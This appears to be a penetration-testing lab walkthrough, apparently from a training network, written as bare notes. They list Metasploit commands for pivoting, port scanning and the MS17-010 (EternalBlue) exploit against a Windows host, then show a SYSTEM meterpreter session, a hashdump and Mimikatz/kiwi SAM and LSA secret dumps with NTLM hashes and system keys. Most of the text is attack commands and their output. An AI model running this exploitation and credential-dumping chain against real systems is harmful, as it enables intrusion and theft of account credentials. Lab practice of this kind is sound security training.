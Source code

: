 - use post/multi/manage/autoroute
	set session 1

- use auxiliary/scanner/portscan/tcp
	set rhost 10.100.40.107
	set ports 1-1000

- use auxiliary/scanner/smb/smb_ms17_010
	set rhost 10.100.40.107
	I tried all hosts, only 107 was vulnerable to ms17-010

- use exploit/windows/smb/ms17_010_psexec
	set options
	set lhost 172.16.23.100 
	// (the first machine we got)
	// because we dont have direct access

> We have system access to the second network

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ELS_Admin:1000:aad3b435b51404eeaad3b435b51404ee:89551acff8895768e489bb3054af94fd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1003:aad3b435b51404eeaad3b435b51404ee:3477c42a01b6cbc3dcf563696f8d8745:::
new_admin:1001:aad3b435b51404eeaad3b435b51404ee:15573ddeb75394946f9503daaff864f5:::
```


load kiwi
```
	lsa_dump_sam 
	lsa_dump_secrets
```

```
Domain : WIN7-ACCOUNTING                                                                                          
SysKey : 61b4cf081a8ba3373d2fb6255f8fa1a4                                                                         
Local SID : S-1-5-21-3081729745-3944019156-515220582                                                              
                                                                                                                  
SAMKey : 71f54acee9461e7f12a7e6a3c0e25ce9

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : ELS_Admin
  Hash NTLM: 89551acff8895768e489bb3054af94fd

RID  : 000003e9 (1001)
User : new_admin
  Hash NTLM: 15573ddeb75394946f9503daaff864f5
    lm  - 0: 3139695ec03b3d855395a52f1deb748d
    ntlm- 0: 15573ddeb75394946f9503daaff864f5

RID  : 000003eb (1003)
User : HomeGroupUser$
  Hash NTLM: 3477c42a01b6cbc3dcf563696f8d8745
```